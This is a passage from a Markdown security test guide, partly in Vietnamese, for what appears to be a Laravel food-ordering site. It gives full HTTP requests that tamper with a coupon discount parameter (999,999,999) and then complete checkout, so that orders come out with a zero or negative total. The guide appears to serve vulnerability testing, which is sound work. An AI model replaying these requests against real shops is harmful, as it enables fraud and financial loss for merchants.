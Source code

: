 ### Step 3: **EXPLOIT - Apply Malicious Discount**
```http
POST {{BASE_URL}}/coupon/apply
Content-Type: application/json
X-CSRF-TOKEN: {{CSRF_TOKEN}}
Cookie: laravel_session={{SESSION_COOKIE}}

{
    "coupon_code": "FASTFOOD10",
    "discount": 999999999
}
```

**⚠️ Expected Vulnerability:**
- Server sẽ accept discount 999,999,999đ
- Lưu vào session mà không validate

### Step 4: Verify Discount Applied
```http
GET {{BASE_URL}}/checkout
Cookie: laravel_session={{SESSION_COOKIE}}
```

**Response sẽ hiển thị:**
- Discount: -999,999,999đ
- Total có thể âm!

### Step 5: **CRITICAL - Complete Malicious Checkout**
```http
POST {{BASE_URL}}/checkout/process
Content-Type: application/x-www-form-urlencoded
X-CSRF-TOKEN: {{CSRF_TOKEN}}
Cookie: laravel_session={{SESSION_COOKIE}}

full_name=Test User&
phone=0123456789&
email=test@example.com&
address=123 Test Street&
city=Hà Nội&
district=Ba Đình&
ward=Phúc Xá&
payment_method=cod&
terms=on
```

**⚠️ CRITICAL RESULT:**
- Order được tạo với discount 999M
- Total amount có thể = 0 hoặc âm
- **FINANCIAL LOSS!**

## 🔍 **TEST CASE 2: SHIPPING FEE INCONSISTENCY**
